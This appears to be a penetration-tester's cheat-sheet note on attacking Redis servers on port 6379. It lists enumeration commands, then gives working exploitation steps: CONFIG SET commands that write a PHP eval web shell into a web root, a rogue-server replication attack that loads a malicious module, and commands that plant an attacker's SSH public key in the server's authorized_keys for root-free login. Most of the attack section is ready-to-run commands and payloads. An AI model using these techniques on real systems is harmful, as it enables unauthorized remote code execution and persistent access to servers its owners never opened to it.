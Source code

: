 ```yaml
---
id: services
aliases: []
tags:
  - exploitation
  - services
  - port/6379
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
 ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> [!TIP]
> 
> #### Authentication: ***Brute force***

1. **Easy**:
> [!IMPORTANT] 
>Must have rights to access the dir / Must know the web root dir

```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
```


> [!note]
> Compile the .so on your machine
> run `redis-cli -h <IP> flushall` to remove all changes otherwise it can give an error  



3. **ssh** :
>Generate a ssh public-private key pair on your pc: 

   `ssh-keygen -t rsa`

> Write the public key to a file : 

  `(echo -e "u\n\nu"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 

`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

> Finally, you can ssh to the redis server with private key : 

`ssh -i id_rsa redis@10.85.0.52 `

### ***Tags***:
| OS | Vuln versions | Techniques |
|----| ------------- | ---------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 



